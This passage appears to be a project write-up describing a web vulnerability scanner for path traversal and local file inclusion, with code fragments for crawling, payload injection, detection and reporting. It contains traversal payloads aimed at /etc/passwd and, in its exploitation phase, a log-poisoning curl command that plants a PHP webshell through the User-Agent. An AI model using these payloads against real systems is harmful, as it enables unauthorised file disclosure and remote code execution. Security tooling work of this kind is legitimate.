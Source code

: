 
### **4.1.3.2 Workflow Phases**

The scanner implements a **4-phase operational workflow** combining crawling, testing, and conditional exploitation:

![[deepseek_mermaid_20250502_a77cfa.svg|527]]


#### **Phase 1: Target Discovery & Crawling**

**Implementation**: `_crawl()` method  
**Concurrency**: ThreadPoolExecutor (BFS with async workers)
```PYTHON
def _crawl(self, url):
    if url in self.visited_urls: return
    self.visited_urls.add(url)
    response = self.session.get(url)
    soup = BeautifulSoup(response.text, 'html.parser')
    # ... link extraction and processing
```
**Key Features**:

1. **Breadth-First Search (BFS)** with depth limiting
    
2. **Same-domain restriction** via `self.base_domain`
    
3. **HTML Element Support**:
    
    - `<a href>`, `<form action>`, `<script src>`
        
    - `<link href>`, `<img src>`
        
4. **Auto-normalization** of relative URLs

**Process Flow**:
![[deepseek_mermaid_20250502_a73a21.svg]]
**Key Advantages**:

- Discovers nested endpoints (e.g., `/api/v1/user?id=1`)
    
- Maintains session state across crawled pages
    
- Processes 100+ URLs/sec with 10 threads

#### **Phase 2: Parameter Analysis**

**Implementation**: `_analyze_parameters()`  
**Concurrency**: Parallel parameter testing

```python
def _analyze_parameters(self, url):
    parsed = urlparse(url)
    params = parse_qs(parsed.query)
    for param in params:
        self._test_parameter(url, param, payload)
```

**Parameter Handling**:

1. **Query String Extraction**: `parse_qs()`
    
2. **Payload Injection**:
    
    - Preserves original parameter values
        
    - URL-encodes special characters
        
3. **Combination Tracking**: `self.tested_combinations`
    

**Example Transformation**:
```
Original: https://example.com/profile?id=123
Test URL: https://example.com/profile?id=../../etc/passwd%00
```


#### **Phase 3: Vulnerability Detection**

**Implementation**: `_test_parameter()` and `_is_vulnerable()`

```python
def _test_parameter(self, url, param, payload):
    test_url = inject_payload(url, param, payload)
    response = self.session.get(test_url)
    if self._is_vulnerable(response):
        self._add_vulnerability(...)
```


**Detection Heuristics**:

|Check Type|Implementation|Example Matches|
|---|---|---|
|Status Code|`response.status_code == 200`|200 OK responses|
|Content Patterns|`re.search(r'root:x:', text)`|`/etc/passwd` signatures|
|Response Length|`len(text) > 1000`|Large non-HTML responses|
|Error Exclusion|`'file not found' not in text`|Filters false positives|
**Multi-Layer Validation**:

1. HTTP status code filter
    
2. OS-specific content patterns
    
3. Response length threshold
    
4. Error message exclusion
    

#### **Phase 4: Conditional Exploitation**

**Implementation**: `_exploit_vulnerabilities()`  
**Trigger**: `--exploit` CLI flag

**Exploitation Features**:

1. **Target File Selection**:
    
    - Predefined OS files (`/etc/passwd`, `win.ini`)
        
    - Custom wordlist integration
        
2. **Adaptive Payloads**:
```python
def _generate_exploit_payload(base_payload, target_file):
    decoded = unquote(base_payload)
    return quote(decoded.replace('passwd', target_file))
```

1. **RCE Detection**:
    
    - Checks Apache/nginx log paths
        
    - Generates exploit guidance:
    
        
```python
curl -A "<?php system($_GET['cmd']);?>" http://target
```

#### **Phase 5: Unified Reporting**

_(New Addition)_

**Implementation**: `generate_report()`  
**Formats**: JSON, CSV, XML  
**Location**: Final phase in workflow

**Key Features**:

1. **Unified Data Model**: Combines detection and exploitation findings
    
2. **Deduplication**: Hash-based unique entry tracking
    
3. **Format-Specific Encoding**:

```python
def generate_report(data, format):
    if format == 'xml':
        # XML-safe character escaping
        cleaned = escape(content.replace('\x00','')) 
    elif format == 'csv':
        # CSV injection prevention
        content = content.lstrip('=@-+')
```
**Report Structure**:


```python
{
  "type": "detection",
  "url": "https://example.com/profile?id=../etc/passwd",
  "parameter": "id",
  "payload": "%2e%2e%2fetc%2fpasswd",
  "status": 200,
  "length": 1204,
  "timestamp": "2024-03-15T14:30:00Z"
}
```


![[deepseek_mermaid_20250502_88212a.svg]]

**Advantages**:

- **Cross-Format Consistency**: Same data model works for all outputs
    
- **Forensic Readiness**: ISO 8601 timestamps aid incident investigation
    
- **Safe Content Handling**:
    
    - Truncates large responses (500+ chars)
        
    - Escapes XML control characters
        
    - Prevents CSV formula injection



**Key Advantages**:

- Auto-scales exploitation threads
- Preserves original encoding layers
- Detects potential RCE vectors

